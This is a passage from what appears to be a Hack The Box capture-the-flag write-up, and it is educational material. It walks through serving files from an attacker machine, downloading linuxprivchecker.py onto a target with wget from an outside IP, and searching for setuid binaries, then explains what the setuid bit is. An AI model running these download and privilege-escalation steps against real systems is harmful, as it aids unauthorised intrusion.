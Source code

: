 - chris found

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/9/37.jpg)


```py
python3 -m http.server 8000
```

```py
import http.server 
import socketserver 

PORT = 8000 
handler = http.server.SimpleHTTPRequestHandler 

with socketserver.TCPServer(("", PORT), handler) as httpd: 
	print("Server started at localhost:" + str(PORT)) 
	httpd.serve_forever()
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/9/38.jpg)

```sh
wget -r 10.10.16.241:8000/linuxprivchecker.py
```

### find out files which setuid bit set

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/9/39.jpg)

```bash
find / -perm -4000 2>/dev/null
```

#### 2>/dev/null
- throw error to black hall
- dev/null` is treated as black hole in Linux/Unix, so you can put anything into this but you will not be able to get it back from `/dev/null`.
- rther, `2>` means that you are redirecting (i.e. `>`) the stderr (i.e. `2`) into the black hole (i.e. `/dev/null`)

##  The setuid bit  
This bit is present for files which have executable permissions. The  setuid bit simplyindicates that when running the executable, it will set its permissions to that of the user who created it (owner), instead of setting it to the user who launched it. Similarly, there is a `setgid` bit which does the same for the gid.

To locate the `setuid`, look for an ‘s’ instead of an ‘x’ in the executable bit of the file permissions.

An example of an executable with `setuid` permission is `passwd`, as can be seen in the following output.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/9/40.jpg)
